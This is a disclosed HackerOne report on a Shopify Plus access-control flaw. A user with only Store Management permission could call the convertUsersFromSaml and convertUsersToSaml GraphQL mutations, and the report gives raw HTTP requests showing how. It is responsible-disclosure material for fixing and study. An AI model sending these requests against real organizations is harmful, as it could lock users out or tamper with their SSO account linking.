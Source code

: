 # [h1-2102] [Plus] User with Store Management Permission can Make convertUsersFromSaml/convertUsersToSaml - that should be limited to User Management

## Report Details
- **Report ID**: 1084904
- **URL**: https://hackerone.com/reports/1084904
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-22T22:34:03.933Z
- **Disclosed**: 2022-04-21T22:05:18.730Z

## Reporter
- **Username**: ngalog
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:
[Plus] User with Store Management Permission can Make convertUsersFromSaml/convertUsersToSaml - that should be limited to User Management Only

## Description:
User with `Store management` permission - {F1168487} only, is able to convert users account from SAML and to SAML using the graphql

## Impact
This could potentially disable the user's ability to login by unlinking their account with SAML identity provider, or by linking their account with SAML identity provider, because maybe there isn't a valid account for that victim

## Steps To Reproduce:
- As an org plus admin, visit https://shopify.plus/:org_plus_id/users/invite and invite an user to have `store management permission` - (The purpose is to enable the low-privileged user to have access to https://shopify.plus/:plus_org_id/stores/api
- Login as the low-priviledged user, and visit shopify.plus and click around until you made a valid graphql call to shopify.plus, it looks something like this `POST /34946971/stores/api HTTP/1.1`
- Make this call to figure our your domain user's ID

```http
POST /34946971/users/api HTTP/1.1
Host: shopify.plus
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
...

{"operationName":"GetAllUserIds","variables":{},"query":"query GetAllUserIds {\n  organization {\n    id\n    users {\n      edges {\n        node {\n          id\n   email       __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}
```

- Make this call to show that you can perform `convertUsersFromSaml` or `convertUsersToSaml` as a low privileged user by replacing `REPLACE_ME` with one of the user id you got from above steps

```
POST /34946971/stores/api HTTP/1.1
Host: shopify.plus
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json
...

{"query":"mutation{convertUsersFromSaml(organizationUserIds:[\"REPLACE_ME\"]){userErrors{message}}}"}
```

or 

```
POST /34946971/stores/api HTTP/1.1
Host: shopify.plus
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json
...

{"query":"mutation{convertUsersToSaml(userIds:[\"REPLACE_ME\"]){userErrors{message}}}"}
```


You may see this in the response for above two requests

`{"data":{"convertUsersToSaml":{"userErrors":[{"message":"Make sure the SAML authentication setting is set to specific users."}]}}}`

or 

`{"data":{"convertUsersFromSaml":{"userErrors":[{"message":"User is already an Identity user: abdulwahaab.ahmed@shopify.com"}]}}}`

It is fine, it just means the lower-privileged user has the permission to perform such actions. It would require additional SAML configuration for the org plus admin for it to fully work

## Impact

But I think this is enough to show that, user with `Store Management` permission level is able to perform two restricted GRaphql call, `convertUsersFromSaml` and `convertUsersToSaml`

## Attachments
- Screen_Shot_2021-01-22_at_11.15.03_PM.png
